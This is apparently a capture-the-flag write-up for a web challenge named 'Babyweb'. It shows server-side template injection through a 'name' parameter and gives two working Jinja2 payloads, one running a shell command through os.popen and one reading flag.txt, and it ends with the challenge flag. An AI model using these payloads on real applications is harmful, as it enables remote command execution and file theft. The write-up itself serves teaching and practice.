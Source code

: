 # Babyweb

**Description**: Embrace the shadows of the URL's 'name' field to uncover the path to victory.

**Link**: [babyweb-ctf.kjsce.com](https://babyweb-ctf.kjsce.com)

## Solution

On opening the link we see the page.

<figure><img src="./imgs/page.png"></figure>

There was a `/name` parameter through which we could do `Side Server Template Injection(SSTI)`.

<figure><img src="./imgs/injection.png"></figure>

Let's try reading some files using it. `{{cycler.__init__.__globals__.os.popen('ls').read()}}`

<figure><img src="./imgs/another.png"></figure>

Now let's read the `flag.txt` file. `{{url_for.__globals__['__builtins__'].open('flag.txt').read()}}`

<figure><img src="./imgs/flag.png"></figure>

## Flag
```
KJSCE_CTF{t3mp1at3_inj3k1i0n_1s_k00l}
```